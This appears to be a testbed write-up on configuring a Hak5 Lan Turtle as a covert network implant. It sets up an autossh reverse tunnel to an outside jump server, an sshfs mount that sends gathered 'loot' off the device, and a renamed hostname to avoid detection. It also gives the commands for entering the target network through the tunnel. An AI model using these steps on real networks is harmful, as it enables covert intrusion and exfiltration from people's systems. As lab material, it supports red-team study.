# Lan Turtle

To represent a physical implant that provides persistent remote access, we selected the [Lan Turtle by Hak5](https://hak5.org/products/lan-turtle). This device is designed to look like a USB Ethernet adapter (or a USB-to-Ethernet KVM) but is really an embedded Linux system that can provide a number of simple capabilities. The unit we had also contained the 3G modem, but we elected not to use it for this setup.

## Configuration

In theory, updating the device to the latest firmware should be easy and straight-forward. It isn't... at least not for me, and a number of others who (helpfully) posted their struggles online.

You should be able to use the `turtle` command, enter the configuration menu, check for updates, apply, reboot, and be golden. The problem I faced, however, was that when I did this, I ended up with a device that would no longer pull modules, check for updates, anything.

After much debugging and gnashing of teeth, it became clear that the issue was that the date/time on the device was out of sync, and therefore SSL validation would fail. Some suggested simply disabling SSL cert validation, but this seems unwise on a security-focused device. Making things further frustrating, I learned that AT&T blocks NTP packets due to network threats, so the configured-by-default NTP client on the turtle fails to obtain an updated time value.

What I ended up figuring out, is as follows:

```bash
# ssh into the turtle, exit the configuration utility 
# and end up at the shell

# update the software listing
$ opkg update

# install a non-NTP-based time update utility
$ opkg install htpdate

# force the time to be updated (using the webserver at 1.1.1.1;
# could be really any valid site)
$ htpdate -s 1.1.1.1
```

Once this is done, it is not a bad idea to add this last command (`htpdate -s 1.1.1.1`) into `/etc/rc.local` so it gets executed on each system start. 

!!! warning
    It might make most sense to change this to daemon mode so it runs all the time

    ```
    htpdate -D 1.1.1.1
    ```

After following all of these steps, I was able to successfully update the device to firmware version `6.2-stable`. For reference, additional firmware files and details are available here: https://downloads.hak5.org/turtle. 

Another general configuration step to assist with the _stealthy-ness_ of the activities, is to edit `/etc/config/system` and change the `hostname` to something other than `turtle`. Making it something less obvious may help hide it longer (e.g. `usbeth0`).

Additionally, I deployed the ssh public key from my attacker machine to the turtle to make subsequent logins easier.

```bash
ssh-copy-id -i ~/.ssh/id_rsa.pub root@172.16.84.1
```

The next configuration activities included installing and configuring the modules. 

### Modules

From within the `turtle` shell, you can choose `Modules` and then select the `modulemanager` module. The `start` and `enable` functions do not really apply for this module, but `Configure` does. From the configuration manager, you choose to update the directory, agree to connect to `lanturtle.com` and then browse/select the modules you'd like to install. For this instance, I chose to keep things simple and just installed the following: `autossh`, `keymanager`, and `sshfs`. Once these have been installed, you can step back a few screens to the main _Modules_ window where you will see and be able to configure the installed modules.

### KeyManager

This module is another that you simply configure, and the only thing I needed to do here was the `generate_key` command. This is just a UI-wrapper on `ssh-keygen`. Once this is done, I needed to transfer the public key (`/.ssh/id_rsa.pub`) to the account on the cloud-hosted jump server. 

!!! Note
    On the jump server, I had previously configured an account (`turtle`) that would be used by this device. Additionally, if the jump server allowed password-based SSH connections, the `KeyManager` module would have allowed me to deploy my key directly. However, since I am only allowing keys, I have to shuffle it through another account and cannot use the automated scripts.

### AutoSSH

The `autossh` module maintains persistent SSH shells to another server and can forward local ports to the remote server for the purpose of enabling reverse tunnling through the established shell. This is a more _normal_ module, so we begin by configuring it:

- user@host: `turtle@george.bitpredator.com`
- Port: `22`
- Remote Port: `2222`
- Local Port: `22`

The last two lines expose port `22` on the turtle's local network interface to port `2222` on the host it is going to tunnel to (in this case, `george.bitpredator.com`). We submit these settings and then select `enable` to have it start each time the device boots up, and finally we click `start` to get it up and running.

!!! Warning
    In prior versions, the instructions up to this point would have worked just fine. However, the last `start` command now fails because my jump server host is not in the `known_hosts` file. In an effort to be maybe a little too smart, this is now bundled into the `copy_key` configuration option of the `keymanager` module, which won't work for me because of my password-less restriction on the jump server. I simply exited to the shell, manually established an SSH connection to my jump server which caused bash to prompt me to update `authorized_keys`. This being done (and confirming that the connection worked), I was able to return to the turtle shell (`turtle`) and start this module.

### SSHFS

The last module to configure is `sshfs`. This simply mounts a remote file system as if it were local. In this case, it allows us to expand the rather meager storage of the turtle to whatever amount of disk is available in my jump server. The configuration of this module is rather simple:

- Host: `george.bitpredator.com`
- Port: `22`
- User: `turtle`
- Path: `/home/turtle`

This will map the local `/sshfs` directory on the turtle to the `/home/turtle` directory on the jump server. Now we submit the configuration, enable it, and then start it.


## Deployment

In the testbed, the turtle is plugged into a USB port on `Lap01` for the purposes of providing power. It could theoretically also provide some MITM capabilities for this machine, but we are not using them. The ethernet jack is connected directly to the primary switch and it serves as a remotely-accesible beachhead. 
<!-- 
```mermaid
graph LR
  A[Router] -- > B[Switch];
  B -- > C[Lap01];
  B -- > D[Turtle];
  C -- > D;
  B -- > E[Lap02];
```
-->

<figure markdown> 
  [![Turtle Layout][1]][1]
  <figcaption>Turtle Layout</figcaption>
</figure>

<figure markdown id="turtle">
  [![Deployed LanTurtle][2]{width=400"}][2]
  <figcaption>Deployed LanTurtle</figcaption>
</figure>

  [1]: ../assets/images/turtle_layout.png
  [2]: ../assets/images/turtle.jpg



## Use

With the device configured and deployed into the test bed, it will provide me a remotely-accessible shell any time I need it. The following demonstrates its use:

```bash
# Connect from my attacker machine to my jump server
$ ssh root@george.bitpredator.com

# copy my local ssh key (on jump server) to turtle
$ ssh-copy-id -i .ssh/id_rsa.pub root@localhost -p 2222

# Connect via the reverse ssh tunnel into the turtle/target env
$ ssh root@localhost -p 2222

# write files to turtle's "local" storage, remapped to jump server
$ touch /sshfs/bubb02
```

!!! tip
    One key feature of using `sshfs` on the turtle as the storage location for "loot", is that if the device happens to be found and/ore disconnected by a local user/network admin, anything that you had gathered will not actually reside on the turtle, but instead on the drive of the jump server which remains in your control
